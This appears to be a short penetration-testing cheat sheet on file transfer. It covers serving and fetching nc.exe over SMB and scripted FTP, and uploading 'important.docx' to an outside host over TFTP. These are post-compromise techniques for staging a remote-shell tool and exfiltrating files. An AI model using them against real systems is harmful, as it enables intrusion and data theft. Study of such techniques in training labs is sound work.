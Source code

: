 # File Transfers
## Netcat
```
```

## SMB Server
-> Setting
```
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```

## SMB
## Pure-FTPd
-> Install and Configure
```
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> Transfer
```
echo open 192.168.0.20 21> ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp
-> Install and Configure
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
-> Action
```
tftp -i 10.11.0.4 put important.docx
```
